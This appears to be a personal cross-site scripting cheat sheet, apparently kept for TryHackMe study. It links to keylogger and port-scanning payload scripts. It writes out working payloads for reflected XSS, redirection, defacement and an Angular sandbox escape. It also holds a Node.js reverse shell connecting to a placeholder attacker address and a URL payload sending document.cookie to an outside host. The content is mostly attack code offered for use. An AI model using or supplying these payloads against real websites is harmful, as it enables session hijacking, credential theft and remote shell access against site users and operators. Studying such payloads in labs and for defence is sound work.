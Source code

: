 # XSS Cross Site Scripting

Payloads can be written in Javascript, VBScript, Flash and CSS.  
## Check this GitHub
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection  
XSS-Payloads.com

### XSS Keylogger 
(http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 
- You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

### Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) 
- A mini local port scanner (more information on this is covered in the TryHackMe XSS room).


# Reflected XSS : Client-Side
Example : 
```url
http://10.10.186.74/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```

## Redirect
```js
window.location='URL'
```

## Defacing
```html
<script>document.querySelector('#div_id').textContent = 'I am a hacker'</script>

<span id='div_id'>I'm a football lover</span>
```

## Reverse shell 

```html
<script>
(function(){ 
	var net = require("net"), 
	cp = require("child_process"), 
	sh = cp.spawn("/bin/sh", []); 
	var client = new net.Socket(); 
	client.connect(LOCAL_PORT_HERE, "LOCAL_IP_HERE", function(){ 
								client.pipe(sh.stdin); 
								sh.stdout.pipe(client); 
								sh.stderr.pipe(client); }
			); 
	return /a/; })();
</script>
```

## DOM Based XSS

That happens when some code is directly displayed in a `<script>...code...</script>`

## Angular
```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

```url
http://targeturl.com/?name={{constructor.constructor("var x = document.cookie; var url = `https://myurl.com?c=` + x ; document.location=url")()}}=
```